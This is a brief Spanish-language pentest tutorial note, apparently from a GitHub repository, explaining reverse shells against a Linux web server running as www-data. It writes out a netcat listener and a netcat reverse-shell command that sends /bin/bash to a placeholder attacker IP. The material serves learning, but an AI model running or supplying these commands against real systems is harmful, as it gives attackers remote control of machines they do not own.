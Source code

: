
-----------
Para atacar una máquina Linux, usualmente se utiliza el puerto 80, ya que en la mayoría de los casos se levanta un servidor Apache con el siguiente comando:

`service apache2 start`

Posteriormente, suele activarse el usuario **www-data**, que controla los servicios web. Este usuario, que es el que inicia el servicio, también es el encargado de ejecutar los comandos de inyección. El objetivo es obtener una consola interactiva que permita ejecutar comandos, lo que se conoce como una **Reverse Shell**.

Para ello, primero te pones en escucha en tu máquina atacante con el siguiente comando:

`nc -nlvp 443`

Luego, envías una reverse shell a tu IP atacante para ejecutar la inyección de código, como en el siguiente ejemplo:

`nc -e /bin/bash ipAtacante 443`

Existen diferentes métodos para establecer una reverse Shell, utilizando lenguajes como Python, Java, entre otros. Para obtener más información sobre estos comandos, puedes revisar la web de **PentestMonkey**.


